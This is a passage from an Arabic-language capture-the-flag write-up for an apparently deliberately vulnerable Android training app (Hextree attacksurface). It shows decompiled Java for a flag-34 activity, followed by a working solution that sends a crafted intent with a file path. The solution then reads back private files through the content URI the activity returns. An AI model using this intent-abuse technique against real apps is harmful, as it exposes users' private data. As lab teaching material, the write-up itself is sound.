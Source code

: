 ```java
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag34.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("file-provider");
            logHelper.addTag("flag34");
            Utils.writeFile(this, "flags/flag34.txt", logHelper.appendLog(FLAG));
        }
    }

```

لما يستلم intent بيشيك على string data تحت اسم `filename` ولو null، uri محدد مسبقاً لملف بيتستخدم `content://io.hextree.files/secret.txt` ولو فيه data، الـ uri هيتعمل مع الـ authority والاسم اللي دخلناه. بس إحنا عايزين إيه؟ الـ method اللي بتحضر الـ flag بتقترح إنها بتاخد الـ flag من مكان وتكتبه في `flags/flag34.txt`

#### الحل

لازم نوصل لـ `flags/flag34.txt` وعشان كده هنضيفه تحت `filename` وبما إن فيه result بيتحط فهنستخدم `startActivityForResult()`

```java
Intent intent = new Intent();  
intent.putExtra("filename","flags/flag34.txt"); // لو عايز secret ماتستخدمهوش  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag34Activity"));  
startActivityForResult(intent,1);

if (requestCode == 1) {  
        Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line ;  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
        }  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 35

#### تحليل الكود
